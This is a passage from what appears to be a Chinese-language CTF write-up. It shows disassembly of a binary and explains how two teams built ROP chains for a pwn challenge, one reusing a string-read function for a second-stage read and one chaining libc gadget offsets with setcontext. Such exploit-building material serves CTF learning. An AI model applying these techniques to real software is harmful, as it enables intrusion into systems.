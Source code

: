 > .text:0000000000002B35
> .text:0000000000002B35 loc_2B35:                               ; CODE XREF: sub_2AC9+21↑j
> .text:0000000000002B35                 mov     eax, [rbp+var_4]
> .text:0000000000002B38                 cmp     eax, [rbp+var_1C]
> .text:0000000000002B3B                 jl      short loc_2AEC
> .text:0000000000002B3D
> .text:0000000000002B3D loc_2B3D:                               ; CODE XREF: sub_2AC9+66↑j
> .text:0000000000002B3D                 mov     eax, [rbp+var_4]
> .text:0000000000002B40                 leave
> .text:0000000000002B41                 retn
> .text:0000000000002B41 ; } // starts at 2AC9

这里是利用了源程序的读入字符串函数，将`rbp`作为`rdi`，`rsi`为随机生成的`key`值，只要`key`稍大就可以实现直接写入`rop`实现二次读入，再将完整的`rop`写入栈，很巧妙的利用手法😘。

接着是来自`Air2top`战队的题解，他选择了三个不同的`gadget`进行组合来完成这个利用：

```python
gad1 = libc_base + 0x72D44 # mov rdi, r14; call qword ptr [rcx+38h]
gad2 = libc_base + 0x167420# mov rdx, qword ptr [rdi + 8] ; mov qword ptr [rsp], rax ; call qword ptr [rdx + 0x20]
gad3 = libc_base + 0x29EAC # add r14, 8; mov qword ptr [rsp], rdx; mov rsi, r12; mov edi, ebp; call qword ptr [rcx];
```

第三个`gadget`用来多次触发实现将`r14`寄存器累加到`bss`上，接着使用第一个`gadget`，在`[rcx+38h]`的位置提前写入第二个`gadget`的地址，跳转到第二个`gadget`，此时的`rdi`是我们可以任意读写的`bss`地址，因此`rdx`是可控的，结合经典的控制`rcx`的`gadget`——`setcontext`就可以完成后续的利用了。这种方法虽然很复杂但是很有趣🥳我很喜欢这种解法～
